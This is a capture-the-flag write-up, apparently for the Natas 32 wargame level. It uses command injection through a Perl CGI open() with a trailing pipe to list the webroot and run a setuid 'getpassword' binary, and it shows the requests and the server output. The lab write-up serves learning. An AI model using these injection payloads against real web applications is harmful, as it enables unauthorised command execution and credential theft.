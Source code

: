 ```perl
                print "<td>".$cgi->escapeHTML($_)."</td>";   
            }
            print "</tr>";
        }
        $i+=1;
    }
    print '</table>';
}
else{
print <<END;
```

As you can see, the code is exactly the same as the previous challenge so, we'll use the same exploit. However, we need to find a binary in the **webroot** and execute it to get the password. First we need to send the following query to list the files in the **webroot** :

```text
POST /index.pl?/bin/ls%20-al%20.%20|
```

We got the following result :

```html
<h1>natas32</h1>
<div id="content">
<table class="sortable table table-hover table-striped"><tr><th>.:
</th></tr><tr><td>total 180
</td></tr><tr><td>drwxr-x---  4 natas32 natas32  4096 Dec 15  2016 .
</td></tr><tr><td>drwxr-xr-x 41 root    root     4096 Oct 29 04:27 ..
</td></tr><tr><td>-rw-r-----  1 natas32 natas32   119 Dec 15  2016 .htaccess
</td></tr><tr><td>-rw-r-----  1 natas32 natas32   129 Oct 20 09:08 .htpasswd
</td></tr><tr><td>drwxr-x---  5 natas32 natas32  4096 Dec 15  2016 bootstrap-3.3.6-dist
</td></tr><tr><td>-rwsrwx---  1 root    natas32  7168 Dec 15  2016 getpassword
</td></tr><tr><td>-rwxr-x---  1 natas32 natas32   235 Dec 15  2016 getpassword.c
</td></tr><tr><td>-rwxr-x---  1 natas32 natas32   236 Dec 15  2016 getpassword.c.tmpl
</td></tr><tr><td>-rwxr-x---  1 natas32 natas32  9667 Dec 15  2016 index-source.html
</td></tr><tr><td>-rwxr-x---  1 natas32 natas32  2952 Dec 15  2016 index-source.pl
</td></tr><tr><td>-rwxr-x---  1 natas32 natas32  2991 Dec 15  2016 index.pl
</td></tr><tr><td>-rwxr-x---  1 natas32 natas32  2952 Dec 15  2016 index.pl.tmpl
</td></tr><tr><td>-rwxr-x---  1 natas32 natas32 97180 Dec 15  2016 jquery-1.12.3.min.js
</td></tr><tr><td>-rwxr-x---  1 natas32 natas32 16877 Dec 15  2016 sorttable.js
</td></tr><tr><td>drwxr-x---  2 natas32 natas32  4096 Apr  5 16:49 tmp
</td></tr></table><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

The **getpassword** executable seems to be the right one. Let's try the following query :

```text
POST /index.pl?./getpassword%20|
```

It worked !
